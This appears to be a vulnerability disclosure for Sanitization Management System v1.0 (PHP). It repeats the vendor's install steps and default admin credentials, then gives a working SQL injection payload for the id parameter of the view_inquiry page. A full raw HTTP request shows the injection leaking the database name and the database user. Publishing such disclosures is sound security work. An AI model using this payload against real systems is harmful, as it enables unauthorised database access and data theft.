 # Sanitization Management System v1.0 has SQLI in /php-sms/admin/?page=inquiries/view_inquiry

Author: y1s3m0

vendors: https://www.sourcecodester.com/php/15770/sanitization-management-system-project-php-and-mysql-free-source-code.html

## How to Run?

### Requirements

-   Download and Install any local web server such as XAMPP.
-   Download the provided source code zip file. (download button is located below)

### System Installation/Setup

-   Enable the GD Library in your php.ini file.
-   Open your XAMPP Control Panel and start Apache and MySQL.
-   Extract the downloaded source code zip file.
-   Copy the extracted source code folder and paste it into the XAMPP's "htdocs" directory.
-   Browse the PHPMyAdmin in a browser. i.e. http://localhost/phpmyadmin
-   Create a new database named sms_db.
-   Import the provided SQL file. The file is known as sms_db.sql located inside the database folder.
-   Browse the Sanitization Management System in a browser. i.e. http://localhost/php-sms/.

### Admin Default Access:

-   Username: admin
-   Password: admin123

## Payload

database:sms_db
database_user:root@localhost

[+] Payload: /php-sms/?p=admin/inquiries/view_inquiry&id=99999999999999999' union select 1,2,database(),user(),5,6,7,8,9 --+ // Leak place ---> id

```sql
GET /php-sms/?p=admin/inquiries/view_inquiry&id=99999999999999999%27%20union%20select%201,2,database(),user(),5,6,7,8,9%20--+ HTTP/1.1
Host: phpcms:8081
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh,zh-CN;q=0.9,ja;q=0.8,vi;q=0.7
Cache-Control: no-cache
Cookie: PHPSESSID=ejfc8c9qlifbn82hovfq5nq74n
DNT: 1
Pragma: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
```

![](images/view_inquiry_sqli.png)
